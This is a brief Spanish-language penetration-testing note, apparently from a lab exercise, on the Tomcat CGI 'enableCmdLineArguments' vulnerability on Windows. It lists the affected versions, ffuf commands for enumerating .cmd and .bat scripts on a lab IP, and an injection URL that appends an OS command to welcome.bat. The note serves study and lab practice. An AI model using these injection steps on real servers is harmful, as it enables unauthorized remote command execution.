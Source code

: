 - Posee una vulnerabilidad en los sistemas Windows que tengan el parametro "enableCmdLineArguments" activado.
- Las versiones afectadas son:
      - 9.0.0.M1 a 9.0.17
      - 8.5.0 a 8.5.39
      - 7.0.0 a 7.0.93


### Enum
##### Buscar cmds:
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
##### Bucar bachs:

    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

### EXPLOITATION
##### Agregamos como parámetro el comando que queremos correr:
    http://10.129.204.227:8080/cgi/welcome.bat?&dir


si el comando es complicado, deberemos encodear en URL.
